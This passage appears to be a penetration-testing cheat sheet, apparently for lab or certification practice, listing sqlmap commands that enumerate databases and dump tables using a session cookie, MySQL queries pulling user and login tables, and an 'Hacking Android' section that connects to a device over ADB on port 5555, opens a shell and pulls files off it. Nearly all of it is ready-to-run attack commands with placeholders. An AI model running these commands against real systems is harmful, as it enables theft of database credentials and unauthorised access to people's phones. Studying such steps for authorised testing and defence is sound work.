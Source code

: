 **List databases, add cookie values**<br>
sqlmap -u "[host]" --cookie=”<cookie>” --dbs <br>
OR<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low”   --data="id=1&Submit=Submit" --dbs  <br>

**List Tables, add databse name**<br>
sqlmap -u “[host]” --cookie="<cookie>" -D <DataBase> --tables<br>
OR<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low” -D <DataBase> --tables<br>  

**List Columns of that table**<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low” -D <DataBase> -T <Table>--columns

**Dump all values of the table**<br>
sqlmap -u “[host]” --cookie="<cookie>" -D <DataBase> -T <Table> --dump<br>
OR<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low” -D <DataBase> -T <Table> --dump

**MySQL**<br>
mysql -U qdpmadmin -h [host] -P passwod <br>
show databases;<br>
use qdpm;<br>
show tables'<br>
select * from users;<br>
show dtabases;<br>
use staff;<br>
show tables;<br>
select * from login;<br>
select * from user;<br>

When you have username and Password for the database.
  
## 8. Hacking Android

### ADB
**To Install ADB**<br>
apt-get update<br>
sudo apt-get install adb -y<br>
adb devices -l

**Connection Establish Steps**<br>
adb connect x.x.x.x:5555<br>
adb devices -l<br>
adb shell  

**To navigate**<br>
pwd<br>
ls<br>
cd Download<br>
ls<br>
cd sdcard<br>

**Download a File from Android using ADB tool**<br>
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt <br>
adb pull sdcard/log.txt /home/mmurphy/Desktop
